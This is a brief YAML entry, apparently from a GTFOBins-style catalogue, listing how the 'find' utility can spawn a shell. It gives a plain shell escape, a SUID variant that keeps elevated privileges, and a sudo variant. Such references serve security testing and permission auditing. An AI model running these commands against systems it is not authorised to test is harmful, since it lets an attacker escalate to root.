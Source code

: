 ```yaml
---
name: find
functions:
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /bin/sh \; -quit
---
```


